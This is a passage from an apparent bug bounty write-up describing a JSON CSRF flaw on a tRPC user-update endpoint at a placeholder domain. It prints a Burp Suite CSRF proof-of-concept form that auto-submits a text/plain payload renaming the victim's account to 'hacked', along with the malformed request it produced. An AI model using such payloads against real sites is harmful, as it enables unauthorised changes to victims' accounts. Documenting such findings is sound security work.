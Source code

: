 ## The JSON CSRF Vector

At this point, I noticed that the **Content-Type** of the request was set to `application/json`. Typically, JSON-based requests are less susceptible to CSRF because of the **same-origin policy** in most browsers. However, I saw a possible weakness in the `Accept: */*` header, which indicated that the server accepted all types of content formats, not just JSON.

This was where I saw an opportunity: I decided to test if the server would accept requests with a `Content-Type` of `text/plain`. If successful, this would open the door to a **CSRF vulnerability** since plain-text form submissions could be exploited in cross-site request forgery attacks.

## Testing the `text/plain` Hypothesis

I modified the **Content-Type** header in the intercepted request to `text/plain` and sent it again. To my surprise, the server accepted the request and processed it successfully, even though it was supposed to handle JSON.

This confirmed the presence of a potential CSRF vulnerability. Now, the next step was to create a **Proof of Concept (PoC)** using Burp Suite's CSRF PoC generator, but I hit a snag here.

## The Burp Suite PoC and the JSON Structure Problem

The CSRF PoC generated by Burp looked like this:

```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="https://dashboard.target.com/trpc/users.updateUserInfo?batch=1" method="POST" enctype="text/plain">
      <input type="hidden" name="&#123;&quot;0&quot;&#58;&#123;&quot;accountName&quot;&#58;&quot;hacked&quot;&#44;&quot;name&quot;&#58;&quot;test user&quot;&#44;&quot;subscribed&quot;&#58;&quot;on&quot;&#44;&quot;phone&quot;&#58;&quot;1234567890&quot;&#44;&quot;country&quot;&#58;&quot;EG&quot;&#125;&#125;" value="" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```

However, the request generated by this PoC was formatted incorrectly. The `=` symbol at the end of the JSON payload caused the server to misinterpret the request as a malformed JSON:

```http
POST /trpc/users.updateUserInfo?batch=1 HTTP/2
Host: dashboard.target.com
Content-Type: text/plain
{"0":{"accountName":"hacked","name":"test user","subscribed":"on","phone":"1234567890","country":"EG"}}=
```
